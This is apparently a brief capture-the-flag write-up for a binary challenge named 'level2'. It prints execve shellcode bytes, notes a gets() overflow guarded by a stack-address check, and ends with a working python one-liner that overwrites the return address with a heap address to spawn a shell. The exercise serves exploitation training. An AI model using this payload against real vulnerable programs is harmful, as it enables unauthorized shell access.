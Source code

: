 # level2

shell code:
http://shell-storm.org/shellcode/files/shellcode-575.html

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

We found an exec again. SCP into local to run ghidra.
there is a fn main that calls fn p().

We found a call to gets() again, but this time it is protected by a restriction on our return address, it can't point to any address in the stack so we cannot overflow there. 


We add the 76 bytes with shellcode to char local_50[76] + 4 bytes for the return, then add a valid return address. 

ltrace ./level2 

 (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2